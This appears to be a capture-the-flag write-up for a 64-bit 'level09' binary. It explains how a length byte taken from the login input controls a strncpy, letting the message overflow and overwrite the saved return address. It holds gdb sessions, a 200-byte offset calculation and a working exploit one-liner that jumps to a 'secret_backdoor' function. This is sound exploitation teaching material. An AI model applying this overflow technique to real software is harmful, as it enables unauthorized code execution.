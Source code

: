 # level09
!! The binary is 64 bits !!  
The program waits for two inputs: `login` and `msg`

## Step 1: Understand the program

The two inputs are enter using `fgets`. Then the two inputs are stored in an other locations using two methods:

#### Login input:
The first 41 bytes are newly stored in a static buffer at `login + 140`

#### Message input:
The second input is copied at `login` using `strncpy`. The lenght of the copy is the value stored at the `login[180]`.


## Vulnerability
The `41th bytes` of the login input (login[180]) is the length of the `strncpy`. So, we can change the size of `strncpy` of the message input through the login input.

## Go deeper:
Once `set_msg` is called
```console
(gdb) b *set_msg
(gdb) b *set_msg+153
(gdb) r
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) x/s $rsp+148
0x7fffffffe55c:	 'A' <repeats 41 times>
```

- buffer `login + 140` is at `0x7fffffffe55c`
- size is 41 whereas I entered more characters. (it's the relocation)
---
```console
(gdb) c
>: Msg @Unix-Dude
>>: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
(gdb) x/s 0x7fffffffe55c-140
0x7fffffffe4d0:	 'C' <repeats 65 times>
```

Good : the second input has been copied into `login` at `0x7fffffffe4d0` with the size __65__.

> 'A' == 65 in decimal

## Step 3: Try to segfault

By setting the maximal size to `strncpy` (256 == 0xFF). we will try to segfault the program.

```bash
(python -c 'print "run" + "\n" + "C" * 40 + "\xff" + "\n" + "B" * 1000') | gdb ./level09
```

```console
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
```

We don't know exactly where the program crashed. But it is in `handle_msg`. 

```console
(gdb) i f
Stack level 0, frame at 0x7fffffffe5a0:
 rip = 0x5555555548c4 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5b0
 Arglist at 0x7fffffffe590, args:
 Locals at 0x7fffffffe590, Previous frame's sp is 0x7fffffffe5a0
 Saved registers:
  rbp at 0x7fffffffe590, rip at 0x7fffffffe598
```

```console
(gdb) p  0x7fffffffe598 - 0x7fffffffe4d0
$6 = 200
```

The strncpy overwrite the `saved rip`: return of `handle_msg` at `0x7fffffffe598`.

Offset is 200 bytes.

## Step 4: Secret backdoor

A function `secret_backdoor` is present and run a desired command.

```bash
gdb ./level09
(gdb) start
(gdb) i functions
```

```console
0x000055555555488c  secret_backdoor
```

secret_backdoor is at `0x000055555555488c`


## Exploit

```bash
(python -c 'print("a" * 40 + "\xff" + "\n" + 200 * "b" + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])'; cat) | /home/users/level09/level09
```